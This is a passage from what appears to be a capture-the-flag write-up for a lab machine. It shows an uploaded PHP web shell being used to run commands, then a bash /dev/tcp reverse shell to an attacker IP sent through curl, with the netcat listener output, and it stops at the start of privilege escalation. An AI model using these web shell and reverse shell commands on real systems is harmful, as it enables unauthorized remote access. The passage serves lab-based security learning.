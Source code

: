 ![](OTS_shellupload.png)

==> Then upon testing the command execution we see that it works:

```bash
curl http://localhost:60080/addons/shell2.php?cmd=id
uid=35(www-admin-data) gid=35(www-admin-data) groups=35(www-admin-data)
```

We can then try to utilize this to get a reverse shell. There are two ways to my knowledge to do so:
1. Modify the uploaded file to execute the reverse shell command
2. Send a `curl` request with the payload in the `cmd`field
I'll do the second option:

```bash
curl http://localhost:60080/addons/shell2.php?cmd=bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.14.153%2F4444%200%3E%251%27

rlwrap nc -lnvp 4444 listening on [any] 4444 ... connect to [10.10.14.153] from (UNKNOWN) [10.129.104.238] 44442 bash: cannot set terminal process group (1866): Inappropriate ioctl for device bash: no job control in this shell www-admin-data@onetwoseven:/var/www/html-admin/addons$ exit
```

At first this does not seem to work as the command might be a bit buggy, I managed to make it work by using:

```bash
curl -G http://localhost:60080/addons/shell2.php --data-urlencode "cmd=bash -c 'bash -i >& /dev/tcp/10.10.14.153/4444 0>&1'"
```

And boom we get a shell as `www-admin-data`
## Privilege escalation
As always, starting to check if we have any `sudo`privileges actually returns something, which I was quite surprised with as it typically isn't the case with `www-data`:
